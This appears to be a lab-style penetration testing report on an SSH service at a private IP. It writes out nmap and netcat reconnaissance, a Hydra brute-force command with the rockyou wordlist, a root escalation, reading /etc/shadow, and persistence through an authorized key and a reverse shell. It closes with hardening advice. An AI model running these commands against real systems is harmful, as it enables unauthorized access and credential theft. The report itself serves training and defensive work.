 # Penetration Testing Report – (Port 22 - SSH)

# 1.Test date : 12-06-25
  Test by : [ NIKHIL ]

2. Target Information
- Target IP: 192.168.1.101
- Operating System: Linux (Ubuntu-based)
- Service: SSH (OpenSSH)
- Port: 22/tcp
- Tools Used: Nmap, Hydra, Metasploit, SSH client


# 3 Scanning / Reconnaissance
Command:
```
nmap -sV -p 22 192.168.1.101
```
Output:
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

Interpretation:
The SSH service is running an outdated version (OpenSSH 4.7p1), which may be vulnerable to known issues.  
No immediate remote exploit is available, but weak password authentication can be tested.  

#4. Enumeration

**4.1 Banner Grabbing**
```
nc 192.168.1.101 22
telnet 192.168.1.101 22
```
Result:
SSH-2.0-OpenSSH_4.7p1 Debian-8ubuntu1

**4.2 Username Discovery**
Possible usernames:
- root
- admin
- user
- postgres
- service

Gathered from:
- Machine default users
- /etc/passwd (via other exploits)

**Ecryption Enumrations**
```
 ssh-client 192.168.1.101
```
It will so the Cryptographic info 
# 5. Exploitation

**5.1 Brute-Force Attack [Hydra](https://www.freecodecamp.org/news/how-to-use-hydra-pentesting-tutorial/)**

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://192.168.1.101
```
Commands : -l/L  known/unknown with user-list , -p/P known/unknown with pass-list
Result:
[22][ssh] host: 192.168.1.101   login: admin   password: admin

5.2 Manual SSH Login
Command:
ssh admin@192.168.1.101

Result:
- Successful login
- User shell obtained

**Privilege Escalation**
- Tried `sudo -l`
- Password for `admin` is same as username
- Escalated to root using `sudo su`

6. Post-Exploitation

Commands executed:
- whoami → root
- uname -a → kernel info
- ifconfig → network details
- cat /etc/shadow → password hashes

Persistence:
- Created SSH key in `~/.ssh/authorized_keys`
- Added reverse shell to bash profile

7. Recommendations

- Update OpenSSH to the latest stable version
- Disable root and default user login via SSH
- Use key-based authentication instead of passwords
- Implement fail2ban or similar tools to prevent brute-force
- Audit SSH logs for unauthorized login attempts
- Enforce strong password policies

8. Conclusion

Port 22 (SSH) on 192.168.1.101 was vulnerable due to weak default credentials and lack of brute-force protection.   
Successful login and privilege escalation to root were achieved using Hydra and default credentials.  
Hardening SSH and disabling unused accounts are essential to prevent real-world attacks.
